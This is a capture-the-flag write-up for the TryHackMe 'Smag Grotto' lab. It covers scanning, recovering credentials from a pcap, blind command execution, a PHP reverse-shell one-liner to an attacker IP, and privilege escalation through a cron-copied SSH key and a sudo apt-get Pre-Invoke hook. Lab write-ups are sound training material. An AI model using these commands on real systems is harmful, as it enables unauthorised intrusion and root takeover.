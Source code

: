 ```bash
# PLATFORM          . THM
# CTF NAME          . Smag Grotto
# DESCRIPTION       . Follow the yellow brick road.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/smaggrotto
```

```
sudo nmap -sSVC -T5 -p- 10.10.212.55 -oN smag
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74e0e1b405856a15687e16daf2c76bee (RSA)
|   256 bd4362b9a1865136f8c7dff90f638fa3 (ECDSA)
|_  256 f9e7da078f10af970b3287c932d71b76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- default page only shows us a basic message, with no other information displayed.

```
Welcome to Smag!
This site is still heavily under development, check back soon to see some of the awesome services we offer!
```

- I decided to fuzz this, since the source code didn't reveal any directories.

```
ffuf -u http://10.10.212.55/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
mail                    [Status: 301, Size: 311, Words: 20, Lines: 10]
```

- Alright. Here we can find 3 mails, all containing some sort of clues.

- The source code of the `.pcap` file is indicated in the source code of the page, which reveals the `http://10.10.212.55/aW1wb3J0YW50/` directory. 

- Also, along with the `netadmin`, `uzi` and `jake@smag.thm` we also have `trodd@smag.thm`. He is CC'ed in the first email, but this was commented out in the html code.

- I opened the `.pcap` file in `wireshark` and the `fourth packet` got my attention, since it is a login request to `login.php`.

```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=c{REDACTED} HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

- We have the credentials in plaintext. Also, the host is `development.smag.thm`.

- In order to access this, we must add the following entry in `/etc/hosts`

```
MACHIHE_IP     development.smag.thm
```

- We're able to login with the credentials above at `http://development.smag.thm/login.php`

- We got access to a web shell after logging in ; we're able to pass commands in a form and they'll get executed on the server.

- The thing is, I tried basic commands like `ls` or `whoami` and I got no response, so I assumed the response is not returned to the webserver in order to be displayed.

- To test this out, I decided to use `ping` while having `tcpdump` running on my VPN interface on my attack box. If I would receive the `ICMP Echo` packets, it would mean that the commands are indeed executed, but no output is shown.

**LOCAL BOX**

```bash
sudo tcpdump -i <interface> #most probably, tun0 - must be the one used by the VPN.
```

**WEB SERVER**

```bash
ping <yourIP> -c 4
```

**TCP DUMP OUTPUT**

```
23:12:43.680353 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 1, length 64
23:12:43.680379 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 1, length 64
23:12:44.886090 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 2, length 64
23:12:44.886117 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 2, length 64
23:12:45.612199 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 3, length 64
23:12:45.612225 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 3, length 64
23:12:46.934153 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 4, length 64
23:12:46.934206 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 4, length 64
```

- As you can see, `development.smag.thm` is reaching out to us. 

**DISCLAIMER**: Use `-c <number>` to send only a limited amount of packets. If that flag is missing, ping will run until stopped (ctrl + C, but we can't do that) and the entire server will become unresponsive since all it is doing is pinging our host.

- Don't ask how I found out :) 

```
php -r '$sock=fsockopen("10.11.53.46",3131);shell_exec("sh <&3 >&3 2>&3");'
```

- This was my command of choice to get a reverse shell from the webserver. 

- To escalate privileges to the only user on the system, `jake`, I found the following.

```
 * * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

- This is a cron job that copies the content of `/opt/.backups/jake_id_rsa.pub.backup` to the `/home/jake/.ssh/authorized_keys` file in jake directories.

- Whatever public key(s) are in that file, it allows SSH connections using the private pair of the public key.

- I've generated a new public/private pair using `ssh-keygen`.

- Then, I've copied the `key.pub` to `/opt/.backups/jake_id_rsa.pub.backup`

- `echo "<content of key.pub" > /opt/.backups/jake_id_rsa.pub.backup`

- Then, from my host, I used `ssh -i key jake@ip`, where `key` is the private pair of `key.pub`.

- Once logged as `jake`, I could escalate privileges easily using 

```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

- This works because I've checked `sudo -l` and saw that we're able to run `apt-get` binary as `sudo`. In this case, we're telling it to invoke `/bin/bash` before it executes, and since we're executing as sudo (so root privileges), we're getting a root shell instead.

**NOTE**: if you're wondering where the `apt-get update` command output is, it is in `jake's shell`.

```
root@smag:/tmp# whoami
root
```

- The user flag is in `/home/jake/user.txt`.
- The root flag is in `/root/root.txt`.

